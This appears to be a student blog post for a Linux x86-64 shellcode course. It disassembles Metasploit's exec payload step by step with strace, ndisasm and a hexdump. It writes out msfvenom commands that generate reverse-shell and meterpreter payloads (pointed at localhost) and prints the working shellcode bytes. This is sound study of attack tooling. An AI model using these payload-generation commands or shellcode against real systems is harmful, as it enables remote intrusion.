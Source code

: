 Assignment #5 – Metasploit Shellcode Analysis
=============================================

In this assignment I will reverse three diferent Linux x86-64 shellcodes produced by Metasploit. I picked three shelcodes at random discounting the stageless Meterpreter ones (which are huge).

    $ msfvenom -l payloads | grep linux/x64 | grep -v stageless | shuf -n 3
    linux/x64/meterpreter/reverse_tcp    Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/shell_reverse_ipv6_tcp     Connect back to attacker and spawn a command shell over IPv6
    linux/x64/exec                       Execute an arbitrary command

For each shellcode I used `msfvenom` to produce both an ELF file and a raw file which will be used during reversing.

    msfvenom -p linux/x64/exec CMD=whoami -f elf > linux-x64-exec
    msfvenom -p linux/x64/exec CMD=whoami -f raw > linux-x64-exec.raw
    msfvenom -p linux/x64/shell_reverse_ipv6_tcp LHOST=::1 -f elf > linux-x64-shell_reverse_ipv6_tcp
    msfvenom -p linux/x64/shell_reverse_ipv6_tcp LHOST=::1 -f raw > linux-x64-shell_reverse_ipv6_tcp.raw
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 -f elf > linux-x64-meterpreter-reverse_tcp
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 -f raw > linux-x64-meterpreter-reverse_tcp.raw

linux/x64/exec
--------------

Fist I checked that the ELF was working as intended, i.e. that it executed `whoami`.

    $ msfvenom -p linux/x64/exec CMD=whoami -f elf > linux-x64-exec
    $ ./linux-x64-exec
    goncalor

Then, I wanted to know which syscalls were being used. A good tool for this is `strace`, which can be used to execute a program and get information about which syscalls it executes.

    $ strace -b execve ./linux-x64-exec
    execve("./linux-x64-exec", ["./linux-x64-exec"], 0x7ffed6f7f010 /* 40 vars */) = 0
    execve("/bin/sh", ["/bin/sh", "-c", "whoami"], NULLstrace: Process 3457 detached
     <detached ...>
     goncalor

So we see that the ELF is calling `execve` and executing the command `/bin/sh -c whoami`. From [`man execve`][man_2_execve] we know this syscall receives the path to a binary/script to execute, an null terminated array of arguments to the binary/script, and a null terminated array with environment variables. And from the output of `strace` we already know what is being put into each of these arguments.

    int execve(const char *pathname, char *const argv[], char *const envp[]);

Now let's see how things are being done behing the scenes. Let's disassemle the ELF:

    $ objdump -M intel -d linux-x64-exec

    linux-x64-exec:     file format elf64-x86-64

Hm... What? No output? Well, it seems that the ELF file produced by `msfvenom` has no headers and `objdump` relies on headers to disassemble, so it's not the best tool to use here (but it could be used with `objdump -M intel,x86-64 -b binary -m i386 -D --start-address=120 linux-x64-exec`, where the 120 was obtained by doing some math with the output of `readelf -a`. Instead, let's use `ndisasm`.

    $ ndisasm -b64 linux-x64-exec.raw
    00000000  6A3B              push byte +0x3b
    00000002  58                pop rax
    00000003  99                cdq
    00000004  48BB2F62696E2F73  mov rbx,0x68732f6e69622f
              -6800
    0000000E  53                push rbx
    0000000F  4889E7            mov rdi,rsp
    00000012  682D630000        push qword 0x632d
    00000017  4889E6            mov rsi,rsp
    0000001A  52                push rdx
    0000001B  E807000000        call 0x27
    00000020  7768              ja 0x8a
    00000022  6F                outsd
    00000023  61                db 0x61
    00000024  6D                insd
    00000025  690056574889      imul eax,[rax],dword 0x89485756
    0000002B  E60F              out 0xf,al
    0000002D  05                db 0x05

The first striking thing is that there's no `syscall` instruction anywhere. After `call` there are some weird instructions which lead me to suspect that's actually data stored in the `.text` section. That data may be misaligning the next instructions and `syscall` is probably there. Since we have `call 0x27` let's try to disassemble starting at that position of the shellcode.

    $ ndisasm -b64 linux-x64-exec.raw -e 0x27 -o 0x27
    00000027  56                push rsi
    00000028  57                push rdi
    00000029  4889E6            mov rsi,rsp
    0000002C  0F05              syscall

Alright! There's the `syscall`!

The first three instructions initialise RAX and RDX.

    00000000  6A3B              push byte +0x3b    ; __NR_execve = 59 = 0x3b
    00000002  58                pop rax            ; rax = 0x3b
    00000003  99                cdq                ; rdx = 0

Then some value is pushed to the stack. Using `python` or `rax2` we can see that it's `/bin/sh` and a null byte.

    $ python
    >>> bytes.fromhex("0068732f6e69622f")
    b'\x00hs/nib/'
    >>> bytes.fromhex("0068732f6e69622f")[::-1]
    b'/bin/sh\x00'
    $ rax2 -s 0x68732f6e69622f | rev
    /bin/sh

So `/bin/sh` is pushed to the stack and RDI is used to store a pointer to that string, which makes sense since it's the first argument to `execve`. Then `-c` is pushed too. Then RDX is pushed, which was zeroed before.

    00000004  48BB2F62696E2F73  mov rbx,0x68732f6e69622f  ; "/bin/sh", 0x00
              -6800
    0000000E  53                push rbx
    0000000F  4889E7            mov rdi,rsp               ; rdi = & "/bin/sh"
    00000012  682D630000        push qword 0x632d         ; "-c", 0x00, 0x00
    00000017  4889E6            mov rsi,rsp               ; rsi = & "-c"
    0000001A  52                push rdx

Now we have a `call` which will push the next instruction's address (`0x20`) to the stack and continue exection at `0x27`. There we push RSI and RDI, the addresses for `-c` and `/bin/sh`. Finally RSI is upated to match RSP, which points to the top of the stack, or in other words the last address we pushed.

    0000001B  E807000000        call 0x27
    00000020  7768              ja 0x8a
    ...
    00000027  56                push rsi
    00000028  57                push rdi
    00000029  4889E6            mov rsi,rsp
    0000002C  0F05              syscall

So, let's see what memory and registers look like when `syscall` gets executed.

    +-----------+
    | 0x0       |    <- rdx (arg3)       (higher memory addresses)
    +-----------+
    | 0x20 (??) |
    +-----------+
    | "-c"      |
    +-----------+
    | "/bin/sh" | <┐ <- rdi (arg1)
    +-----------+  |
    | address   | -┘ <- rsi (arg2)       (lower memory addresses)
    +-----------+

As you can see all that's needed to call `execve("/bin/sh", ["/bin/sh", "-c", "whoami"], NULL)` looks in place. The missing piece is what's at address `0x20` which must be `whoami`. Let's check that. The following weird instructions are in fact a string.

<pre>
00000020  7768              ja 0x8a
00000022  6F                outsd
00000023  61                db 0x61
00000024  6D                insd
00000025  690056574889      imul eax,[rax],dword 0x89485756

$ hd linux-x64-exec.raw
00000000  6a 3b 58 99 48 bb 2f 62  69 6e 2f 73 68 00 53 48  |j;X.H./bin/sh.SH|
00000010  89 e7 68 2d 63 00 00 48  89 e6 52 e8 07 00 00 00  |..h-c..H..R.....|
00000020  <b>77 68 6f 61 6d 69 00</b> 56  57 48 89 e6 0f 05        |<b>whoami.</b>VWH....|
0000002e
</pre>

So we're all set. `execve` is executed and it executes `whoami` as intended.



[man_2_execve]: https://linux.die.net/man/2/execve

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
